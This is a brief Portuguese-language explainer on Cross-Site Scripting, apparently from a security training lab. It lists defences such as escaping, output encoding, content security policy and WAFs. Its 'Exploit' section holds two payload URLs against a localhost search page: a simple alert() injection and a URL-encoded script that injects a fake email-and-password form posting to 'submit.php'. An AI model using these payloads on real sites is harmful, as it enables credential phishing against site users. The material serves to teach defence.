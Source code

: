 # Cross Site Scripting (XSS)

Os ataques Cross-Site Scripting (XSS) são um tipo de injeção, na qual scripts maliciosos são injetados em sites benignos e confiáveis. Os ataques XSS ocorrem quando um invasor usa um aplicativo da Web para enviar código malicioso, geralmente na forma de um script do lado do navegador, para um usuário final diferente.

## Como proteger

- Garantir que todas as variáveis ​​passem por validação e sejam então escapadas ou higienizadas
- Codificar a saída quando você precisa exibir dados com segurança exatamente como um usuário os digitou
    - No javacritp procure utilizar metodos Safe Sink
- Outros controles (segurança em camadas)
    - Atributos de cookies
    - Política de segurança de conteúdo
    - Firewalls de aplicativos da Web (WAFs) 

## Exploit

http://127.0.0.1:3000/search?search=teste<script>alert('teste');</script>
http://127.0.0.1:3000/search?search=teste%3C%2Fp%3E%3Cscript%3Evar%20down%3Ddocument.getElementById(%22teste%22)%2Cform%3Ddocument.createElement(%22form%22)%3Bform.setAttribute(%22method%22%2C%22post%22)%2Cform.setAttribute(%22action%22%2C%22submit.php%22)%3Bvar%20EID%3Ddocument.createElement(%22input%22)%3BEID.setAttribute(%22type%22%2C%22text%22)%2CEID.setAttribute(%22name%22%2C%22emailID%22)%3Bvar%20PWD%3Ddocument.createElement(%22input%22)%3BPWD.setAttribute(%22type%22%2C%22password%22)%2CPWD.setAttribute(%22name%22%2C%22password%22)%3Bvar%20s%3Ddocument.createElement(%22input%22)%3Bs.setAttribute(%22type%22%2C%22submit%22)%2Cs.setAttribute(%22value%22%2C%22Submit%22)%2Cform.appendChild(EID)%2Cform.appendChild(PWD)%2Cform.appendChild(s)%3Bdown.appendChild(form)%3B%3C%2Fscript%3E

## Mais informações

https://owasp.org/www-community/attacks/xss/
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html